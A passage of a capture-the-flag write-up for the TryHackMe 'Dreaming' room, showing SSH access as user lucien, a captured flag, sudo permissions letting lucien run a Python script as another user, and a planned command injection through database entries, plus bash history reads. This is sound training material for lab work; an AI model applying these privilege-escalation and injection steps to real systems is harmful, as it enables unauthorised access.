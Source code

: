 Let's try it on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with username `lucien` :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Dreaming]
└─$ ssh lucien@dreaming.thm 

lucien@ip-10-10-8-38:~$ cat lucien_flag.txt 
THM{TH3_L1BR4R14N}
```

Boom.

# Lateral Movement - Privilege Escalation

## Lucien to Death

We can start with [Lateral Movement](../../3%20-%20Tags/Hacking%20Concepts/Lateral%20Movement.md) checking permissions :

```bash
lucien@ip-10-10-8-38:/$ sudo -l
Matching Defaults entries for lucien on ip-10-10-8-38:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on ip-10-10-8-38:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py

```

We can try it :

```bash
lucien@ip-10-10-137-212:/home$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

```

We find the same script in /opt, but password is redacted for death, let's retrieve mysql credentials for lucien and use them to connect to the database and add fake entries in the `dreamer` and/or `dream` columns that will be executed by the `getDreams.py` script :

```bash
lucien@ip-10-10-137-212:~$ cat .bash_history 
ls
cd /etc/ssh/
clear
nano sshd_config
su root
cd ..
ls
cd ..
cd etc
ls
..
cd ..
cd usr
cd lib
cd python3.8
nano shutil.py 
clear
```